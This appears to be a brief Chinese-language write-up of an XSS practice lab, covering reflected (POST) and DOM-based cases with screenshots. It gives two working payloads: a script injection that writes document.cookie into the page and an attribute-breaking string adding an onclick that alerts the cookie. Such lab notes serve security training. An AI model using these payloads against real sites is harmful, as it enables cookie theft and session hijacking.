 ### 反射型(POST)

登录

​![image](assets/image-20240912194128-g63ajgw.png)​

登录发现套路一样

payload：

```bash
</p><script>document.write('<p>'+document.cookie+'</p>');</script>
```

​![image](assets/image-20240912194240-5ct8t09.png)​

### DOM型xss

输入111，发现被放到a的href里

​![image](assets/image-20240912201458-9grruqf.png)​

```bash
#' onclick="alert(document.cookie)">   闭合href标签，并且在中添加a有的点击事件。
```
